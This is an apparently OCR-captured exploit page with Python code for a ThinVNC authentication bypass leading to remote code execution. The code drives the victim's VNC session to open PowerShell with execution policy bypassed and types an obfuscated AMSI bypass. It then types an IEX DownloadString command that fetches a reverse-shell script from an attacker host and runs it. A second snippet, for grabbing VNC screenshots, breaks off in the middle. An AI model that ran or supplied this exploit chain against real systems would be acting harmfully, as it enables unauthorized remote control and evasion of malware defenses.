 ```python

print("[*] ThinVNC Auth Bypass to RCE exploit")
print

print("[+] Getting sid")
sid = login_sid(url)

print("[+] Initializing sid")
start_sid(url, sid)


print("[+] Sending Ctrl+Esc sid")
send_ctrl_esc(url, sid)

print("[+] Opening run")
send_text(url, sid, "run")
send_enter(url, sid)


print("[+] Sending Reverse Shell")

amsi_txt = """powershell.exe -exec bypass"""
send_text(url, sid, amsi_txt)
send_enter(url, sid)


# AMSI Bypass
amsi_txt = """S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )"""
send_text(url, sid, amsi_txt)
send_enter(url, sid)


# Reverse Shell
rev_shell_txt = "IEX((New-Object System.Net.WebClient).DownloadString('http://<attacker>:8002/rev.ps1'))"
send_text(url, sid, rev_shell_txt)
send_enter(url, sid)
```

The following code can be used to take screenshots of the VNC session.

```python
import requests
import time
import argparse
import os
import urllib3
urllib3.disable_warnings()


proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "close",
```